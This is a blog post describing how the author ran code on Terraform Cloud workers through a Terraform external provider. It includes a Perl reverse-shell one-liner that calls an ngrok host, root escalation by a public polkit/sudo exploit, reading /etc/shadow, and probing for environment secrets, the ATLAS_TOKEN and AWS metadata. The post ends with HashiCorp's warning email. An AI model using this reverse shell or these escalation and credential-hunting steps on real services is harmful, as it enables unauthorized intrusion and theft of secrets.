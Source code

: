 ```yaml
---
id: sorry-hashicorp
previewImageUrl: https://cdn.ruse.tech/imgs/sorry-hashicorp/icon.png
datePosted: 09-29-2022
pinned: false
description: Exploring Terraform Enterprise and getting caught
tags: hacking
  terraform
title: Sorry Hashicorp
---
```


# Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way.

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my projects.

Using a remote TFE workspace comes with many cool features but to me best benefits are state management and CI/CD. Simply connect your repo to TFE and commit to main and your terraform code executes.

This got me thinking, I am running code on another person's machine....

## The starting mischief

Okay so we can run code on another machine but where does that get us?

I started thinking of a way I could get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF.

The easiest and most simple way is to use an external provider and run a bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out of the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you are worried about opsec please do not do this.

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host, we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. At this time PolKit had only been out for a few days (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on GitHub and we have root.

With root, I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistence?

My main question was, can I access other users' runs?

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am running on a t3a.small. So ephemeral EC2 hosts...interesting.

I started to wonder, Are hosts being reused or are they deleted after a single run?

To test this I added a cron on an instance to call and waited but, it never did.

I gave up on this idea and started to look elsewhere.

## Finding the Terraform user hash

Using the root access I checked/etc/shadowd and found the password hash for the Terraform users.

Then I checked several instances it was clear that all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user hash is not useful in this case. I still reported it to HashiCorp.

## Environment Variables

This is not an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you can run TF code.

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught

To be clear I was doing all this testing in my environment in an isolated account with good intentions. That being said it is likely against the terms and services. I do not recommend, in any case doing unauthorized testing against a service.

I called it a night and when I woke up, I had a polite email from Hashicorp.

```text
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc., and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already taken to mitigate those attack paths.

Seriously shout-out to Hashicorp for being so cool.

At the end of the day, no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area and I would have loved to have more time to explore the host configurations, it will have to wait for an authorized time. ;)
